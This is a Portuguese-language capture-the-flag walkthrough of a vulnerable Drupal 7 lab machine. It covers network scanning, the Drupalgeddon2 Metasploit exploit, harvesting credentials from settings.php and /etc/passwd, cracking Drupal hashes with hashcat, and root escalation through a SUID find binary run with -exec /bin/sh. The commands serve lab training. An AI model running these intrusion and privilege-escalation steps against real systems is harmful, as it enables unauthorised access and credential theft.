



Como é uma máquina virtual vamos ter que vasculhar a rede que nós "conecta" 

Sendo o meu IP Virtual 192.168.56.1, vamo vasculhar em um intervalo 

```
netdiscover -i vboxnet0 -r 192.168.56.0/24
```

```
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 4 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 168
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.56.100  08:00:27:25:05:09      1      42  PCS Systemtechnik GmbH
 192.168.56.101  08:00:27:e8:af:9e      3     126  PCS Systemtechnik GmbH
```

Agora é hora do nmap, o ip de final 100 não é possivel encontrar nada, ja o do final 101 nos dá informações...

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-14 18:52 -03
Nmap scan report for 192.168.56.101
Host is up (0.00040s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey:
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-server-header: Apache/2.2.22 (Debian)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34265/udp   status
|   100024  1          37352/tcp6  status
|   100024  1          57519/udp6  status
|_  100024  1          57592/tcp   status
MAC Address: 08:00:27:E8:AF:9E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```




Gobuster não deu muito direcionamento, apenas diretórios padrões e que por hora não temos permissoes como por exemplo /admin/

Usei o metasploitconsole para configurar o seguinte exploit atraves da busca por Drupal 7 

```
 exploit/unix/webapp/drupal_drupalgeddon2                          2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
```

Com isso consigo acesso a um shelll e faço um shell reverso para minha Máquina...

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:104::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:105:109:MySQL Server,,,:/nonexistent:/bin/false
flag4:x:1001:1001:Flag4,,,:/home/flag4:/bin/bash
```

Há um usuário flag4 que possui uma pasta no diretório /home onde encontramos a primeira flag.

# Flag 1/5

```
cat flag4.txt
Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?
```

Agora ja sabemos o formato do arquivo de texto flag#.txt podemos usar o comando find para buscar pelas demais...

MEMORIZE
```
find / -name flag#.txt 2>/dev/null
```

# Flag 2/5

```
cat /var/www/flag1.txt
Every good CMS needs a config file - and so do you.
```

Com uma breve pesquisa descubro que o lugar padrão do arquivo de configuração do CMS Drupal se encontra em *sites/default*, e la se encontra exatamento o arquivo settings.php o comando find também pode te ajudar, mas nesse caso recorri ao google pois não sabia de fato qual era o nome do arquivo que devia procurar.

# Flag 3/5

```
/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

Vamos logar ao mysql agora com essas credenciais e ver o que conseguimos com isso 

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| drupaldb           |
+--------------------+
```

```
| system                      |
| taxonomy_index              |
| taxonomy_term_data          |
| taxonomy_term_hierarchy     |
| taxonomy_vocabulary         |
| url_alias                   |
| users                       | *******************************
| users_roles                 | *******************************
| variable                    |
| views_display               |
| views_view                  |
| watchdog                    |
+-----------------------------+
```

Duas tabelas chamam a atenção.... users_roles so possui id com categorias de *roles* 

```
|1|admin|$S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR|admin@example.com| | |NULL|1550581826|1550583852|1550582362|1|Australia/Melbourne| |0|admin@example.com|b:0;|
|2|Fred|$S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg|fred@example.org|| |filtered_html|1550581952|1550582225|1550582225|1|Australia/Melbourne| |0|fred@example.org|b:0;|
```

Buscando saber mais em *https://hashcat.net/wiki/doku.php?id=example_hashes* existe um modo do próprio hashcat associado ao exato Drupal7. Vamos quebrar esses hashes que descobrimos usando *rockyou*

```
Fred
$S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg:MyPassword
```

Mesmo logado como Fred não há nada de muito interessante no site... vou encontrar um meio de conseguir acesso root que é melhor.



com isso vou usar o comando para encontrar possiveis artificios com permissão root

MEMORIZE
```
find / -perm -u=s -type f 2>/dev/null
```

```
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find  ***********************************************
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

se o find executa como root é só eu usa-lo para encontrar uma coisa que eu sei que vou encontrar e executar comando arbitrários posteriormente. 

PoC

```
find / -name flag4.txt -exec "whoami" \;
root
```

Dessa forma então....

```
www-data@DC-1:/var/www$ find / flag4.txt -exec "/bin/sh" \;
find / flag4.txt -exec "/bin/sh" \;
# whoami
whoami
root
```

Nesse meio tempo o hashcat quebrou a senha do admin.

```
admin
$S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR:53cr3t
```

Agora com privilegio de admin vamos até o diretório /admin/ e ver o que conseguimos com isso, avaliando as sessões como por exemplo *dashboard* encontramos a flag3

# Flag 4/5



```
Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
```

Essa flag nos dava a pista de usar o Find para elevação de privilégios root, como a demora de quebrar a senha hash de admin descobrimos sozinho esse caminho.

Agora so resta investigar o diretório root, pois apesar de ter conseguido acesso não tinha examinado. 

# Flag 5/5

E é nele que encontramos *thefinalflag.txt*, como já era de se esperar.

```
# cd /root
cd /root

# ls
ls
thefinalflag.txt

# cat thefinalflag.txt
cat thefinalflag.txt

Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```